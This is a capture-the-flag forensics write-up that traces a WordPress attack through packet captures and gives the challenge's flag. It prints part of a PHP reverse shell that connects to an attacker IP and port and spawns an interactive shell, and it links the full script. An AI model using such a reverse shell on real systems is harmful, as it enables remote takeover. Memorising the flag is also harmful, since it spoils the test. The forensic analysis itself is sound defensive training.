

# WordPress - 4
[Medium]

Same file from WordPress - 1

Q1. What is the name of the function that the attacker tested the exploit with, and what is the name/version of the attacker's server?

Q2. What is the username that was logged on during the attack, including the domain?

Q3. The attacker attempted to upload a reverse shell. Mention the IP and port. What command posed an obstacle during the process of the reverse shell?

Flag Format `0xL4ugh{A1_A2_A3}`

Example: `0xL4ugh{functionName()_serverName/version_domain\username_IP:PORT_command}`

---

Solution:

Remember earlier, from 3, that RCE were sent by `192.168.204.1` and used `172.26.211.155` as the C2? 

Let's use them for filtering `((ip.src == 192.168.204.1) || (ip.dst == 192.168.204.1) || (ip.src == 172.26.211.155) || (ip.dst == 172.26.211.155)) && http`


There we go! Q1 answer: `phpinfo()_SimpleHTTP/0.6`

For Q2, let's take a look at the result from the packet that invoked `whoami`


Q2 answer: `desktop-2r3ar22\administrator`

Finally, for Q3, the retrieval of the reverse shell happened after invoking the `whomai` command. Since we saw earlier that if `wp_abspath` is the only parameter, it retrieved the payload from the C2.


```php
<?php


set_time_limit (0);
$VERSION = "1.0";
$ip = '172.26.211.155';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

-snip-
```

The original reverse shell script for this one can be found at https://github.com/xdayeh/Php-Reverse-Shell/blob/master/PHP-Reverse-Shell.php



Now we have the IP:PORT! `172.26.211.155:1234`

Now, what does the author mean about the `command` ?

The reverse shell script has the following `$shell = 'uname -a; w; id; /bin/sh -i';`

So maybe one or all of these failed? I decided to double-check the victim's `phpinfo()` from earlier


This runs on Windows! So it will immediately fail from the first command, which is `uname`.

Thefore, the flag is `0xL4ugh{phpinfo()_SimpleHTTP/0.6_desktop-2r3ar22\administrator_172.26.211.155:1234_uname}`


